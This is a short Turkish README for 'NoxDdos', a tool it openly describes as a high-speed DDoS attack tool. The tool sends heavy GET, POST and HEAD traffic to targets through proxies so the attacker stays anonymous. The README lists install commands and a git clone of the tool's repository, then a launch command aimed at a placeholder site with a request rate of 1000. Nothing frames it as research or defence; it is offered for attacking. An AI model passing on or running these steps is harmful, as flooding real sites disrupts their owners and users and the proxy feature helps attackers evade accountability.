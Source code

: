 # NoxDdos
 NoxDdos, yüksek hızda ve etkili bir DDoS saldırı aracı olup, karanlık güç simgesi Nox'tan ismini alır. Farklı HTTP metodlarıyla (GET, POST, HEAD) ve proxy desteğiyle anonim bir şekilde hedeflere yoğun trafik gönderir. 
 Kurulum :
 `pkg install python3`
 `pkg install python`
 `pkg install git`
`git clone https://github.com/SenihX/NoxDdos.git`
`cd NoxDdos`
Saldırıyı Başlatmak İçin:
`python NoxDdos.py -t hedefsite.com -p 80 -r 1000`

